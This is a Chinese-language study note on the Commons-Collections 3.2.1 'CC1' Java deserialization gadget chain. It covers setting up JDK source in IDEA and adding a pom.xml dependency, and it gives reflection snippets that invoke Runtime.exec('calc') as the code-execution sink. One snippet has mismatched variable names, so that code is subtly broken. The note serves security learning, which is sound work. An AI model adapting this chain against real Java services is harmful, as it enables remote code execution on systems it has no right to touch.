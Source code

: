# 写在前面
参考：[https://blog.csdn.net/weixin_45808483/article/details/122743960](https://blog.csdn.net/weixin_45808483/article/details/122743960)
## 配环境：
由于sun的反编译没有具体名字，需要具体找到源码并安装到src里面。
[https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)
下载源码，然后找到了路径src/share/classes/sun
直接把整个文件夹赋值，找到对应jdk版本，里面有个src.zip，解压出src，把sun文件夹复制到那里面。
接着在idea里面配置，![微信截图_20230512082333.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1683851020862-93a85672-cee4-47a8-9971-f0f65daa9a75.png#averageHue=%233c4044&clientId=ud4ae357e-769c-4&from=paste&height=498&id=u897d3dc2&originHeight=623&originWidth=1209&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30160&status=done&style=none&taskId=u2c9113cb-3461-4361-8200-dfcffa576e3&title=&width=967.2)
源路径里面，把src文件夹添加上去。
# CC1
java版本去官网上下7，idea给的8补丁版本太高了。
```java
<dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <!-- 其他依赖项 -->
    </dependencies>
```
在pom.xml上添加这么一段话，用于下载这玩意。
rce方法：
```java
Runtime r = Runtime.getRuntime();
        Class c = Runtime.class;
        Method execMethod = c.getMethod("exec",String.class);
        execMethod.invoke(r,"calc");
    	

```
Runtime无法序列化，于是间接整出：
```java
Class c = Runtime.class;//
Method getruntimeMethod = c.getMethod("getRuntime",null);
Runtime r = getRuntimeMethod.invoke(null,null);//静态方法且无参，两个参数都是null。返回一个runtime对象
Method execMethod = c.getMethod("exec",String.class);
exec.invoke(r,"calc");
```
Runtime一些重要源码
```java
 private static Runtime currentRuntime = new Runtime();

    /**
     * Returns the runtime object associated with the current Java application.
     * Most of the methods of class <code>Runtime</code> are instance
     * methods and must be invoked with respect to the current runtime object.
     *
     * @return  the <code>Runtime</code> object associated with the current
     *          Java application.
     */
    public static Runtime getRuntime() {
        return currentRuntime;
    }

```